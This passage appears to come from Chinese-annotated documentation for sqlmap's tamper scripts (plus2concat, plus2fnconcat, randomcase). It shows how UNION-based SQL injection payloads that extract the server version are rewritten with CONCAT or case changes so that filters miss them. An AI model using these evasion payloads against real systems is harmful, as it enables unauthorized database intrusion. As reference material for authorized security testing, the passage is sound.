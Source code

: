 用对应的 (MsSQL) 函数 CONCAT() 代替加号运算符('+')。

Tested against:
* Microsoft SQL Server 2012

Requirements:
* Microsoft SQL Server 2012+

```py
>>> tamper('SELECT CHAR(113)+CHAR(114)+CHAR(115) FROM DUAL')
'SELECT CONCAT(CHAR(113),CHAR(114),CHAR(115)) FROM DUAL'

>>> tamper('1 UNION ALL SELECT NULL,NULL,CHAR(113)+CHAR(118)+CHAR(112)+CHAR(112)+CHAR(113)+ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32))+CHAR(113)+CHAR(112)+CHAR(107)+CHAR(112)+CHAR(113)-- qtfe')
'1 UNION ALL SELECT NULL,NULL,CONCAT(CHAR(113),CHAR(118),CHAR(112),CHAR(112),CHAR(113),ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32)),CHAR(113),CHAR(112),CHAR(107),CHAR(112),CHAR(113))-- qtfe'
```

### plus2fnconcat.py

> Replaces plus operator ('+') with (MsSQL) ODBC function {fn CONCAT()} counterpart

Tested against:
* Microsoft SQL Server 2008

Requirements:
* Microsoft SQL Server 2008+

Notes:
* Useful in case ('+') character is filtered
* https://msdn.microsoft.com/en-us/library/bb630290.aspx

```py
>>> tamper('SELECT CHAR(113)+CHAR(114)+CHAR(115) FROM DUAL')
'SELECT {fn CONCAT({fn CONCAT(CHAR(113),CHAR(114))},CHAR(115))} FROM DUAL'

>>> tamper('1 UNION ALL SELECT NULL,NULL,CHAR(113)+CHAR(118)+CHAR(112)+CHAR(112)+CHAR(113)+ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32))+CHAR(113)+CHAR(112)+CHAR(107)+CHAR(112)+CHAR(113)-- qtfe')
'1 UNION ALL SELECT NULL,NULL,{fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT({fn CONCAT(CHAR(113),CHAR(118))},CHAR(112))},CHAR(112))},CHAR(113))},ISNULL(CAST(@@VERSION AS NVARCHAR(4000)),CHAR(32)))},CHAR(113))},CHAR(112))},CHAR(107))},CHAR(112))},CHAR(113))}-- qtfe'
```

### randomcase.py

> Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)

字符替换成大小写字符

Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0
* SQLite 3
